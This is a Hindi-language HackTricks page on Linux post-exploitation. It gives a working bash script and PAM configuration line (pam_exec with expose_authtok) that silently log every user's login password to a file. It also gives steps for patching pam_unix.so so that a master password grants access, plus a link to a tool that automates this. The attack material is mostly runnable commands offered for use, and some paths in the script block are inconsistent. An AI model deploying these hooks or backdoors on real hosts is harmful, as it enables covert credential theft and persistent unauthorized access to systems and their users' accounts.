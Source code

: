 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM के साथ लॉगिन पासवर्ड की स्निफिंग

आइए एक PAM मॉड्यूल को कॉन्फ़िगर करें ताकि प्रत्येक उपयोगकर्ता द्वारा लॉगिन के लिए उपयोग किए जाने वाले पासवर्ड को लॉग किया जा सके। यदि आप नहीं जानते कि PAM क्या है, तो देखें:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**अधिक जानकारी के लिए [मूल पोस्ट](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) देखें**। यह केवल एक सारांश है:

**तकनीक का अवलोकन:**
प्लग करने योग्य प्रमाणीकरण मॉड्यूल (PAM) यूनिक्स-आधारित सिस्टम पर प्रमाणीकरण प्रबंधन में लचीलापन प्रदान करते हैं। वे लॉगिन प्रक्रियाओं को अनुकूलित करके सुरक्षा को बढ़ा सकते हैं, लेकिन यदि गलत तरीके से उपयोग किया जाए तो जोखिम भी पैदा कर सकते हैं। यह सारांश PAM का उपयोग करके लॉगिन क्रेडेंशियल कैप्चर करने की एक तकनीक को रेखांकित करता है, साथ ही शमन रणनीतियों के साथ।

**क्रेडेंशियल कैप्चर करना:**

- एक बैश स्क्रिप्ट जिसका नाम `toomanysecrets.sh` है, लॉगिन प्रयासों को लॉग करने के लिए बनाई गई है, जो तारीख, उपयोगकर्ता नाम (`$PAM_USER`), पासवर्ड (stdin के माध्यम से), और दूरस्थ होस्ट IP (`$PAM_RHOST`) को `/var/log/toomanysecrets.log` में कैप्चर करती है।
- स्क्रिप्ट को निष्पादन योग्य बनाया गया है और PAM कॉन्फ़िगरेशन (`common-auth`) में `pam_exec.so` मॉड्यूल का उपयोग करके एकीकृत किया गया है, जिसमें चुपचाप चलाने और स्क्रिप्ट को प्रमाणीकरण टोकन उजागर करने के विकल्प हैं।
- यह दृष्टिकोण दिखाता है कि कैसे एक समझौता किया गया Linux होस्ट क्रेडेंशियल्स को चुपचाप लॉग करने के लिए शोषित किया जा सकता है।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**अधिक जानकारी के लिए [मूल पोस्ट](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) देखें**। यह केवल एक सारांश है:

Pluggable Authentication Module (PAM) एक प्रणाली है जो Linux के तहत उपयोगकर्ता प्रमाणीकरण के लिए उपयोग की जाती है। यह तीन मुख्य अवधारणाओं पर काम करती है: **उपयोगकर्ता नाम**, **पासवर्ड**, और **सेवा**। प्रत्येक सेवा के लिए कॉन्फ़िगरेशन फ़ाइलें `/etc/pam.d/` निर्देशिका में स्थित हैं, जहाँ साझा पुस्तकालय प्रमाणीकरण को संभालते हैं।

**उद्देश्य**: PAM को संशोधित करना ताकि एक विशिष्ट पासवर्ड के साथ प्रमाणीकरण की अनुमति दी जा सके, वास्तविक उपयोगकर्ता पासवर्ड को बायपास करते हुए। यह विशेष रूप से `common-auth` फ़ाइल द्वारा उपयोग किए जाने वाले `pam_unix.so` साझा पुस्तकालय पर केंद्रित है, जो पासवर्ड सत्यापन के लिए लगभग सभी सेवाओं द्वारा शामिल किया जाता है।

### `pam_unix.so` को संशोधित करने के चरण:

1. **common-auth फ़ाइल में प्रमाणीकरण निर्देश को खोजें**:
- वह पंक्ति जो उपयोगकर्ता के पासवर्ड की जांच के लिए `pam_unix.so` को कॉल करती है।
2. **स्रोत कोड को संशोधित करें**:
- `pam_unix_auth.c` स्रोत फ़ाइल में एक शर्तीय कथन जोड़ें जो पूर्वनिर्धारित पासवर्ड का उपयोग करने पर पहुँच प्रदान करता है, अन्यथा यह सामान्य प्रमाणीकरण प्रक्रिया के साथ आगे बढ़ता है।
3. **संशोधित `pam_unix.so` पुस्तकालय को उचित निर्देशिका में पुनः संकलित और प्रतिस्थापित करें**।
4. **परीक्षण**:
- विभिन्न सेवाओं (लॉगिन, ssh, sudo, su, स्क्रीनसेवर) में पूर्वनिर्धारित पासवर्ड के साथ पहुँच दी जाती है, जबकि सामान्य प्रमाणीकरण प्रक्रियाएँ अप्रभावित रहती हैं।

> [!TIP]
> आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं

{{#include ../../banners/hacktricks-training.md}}
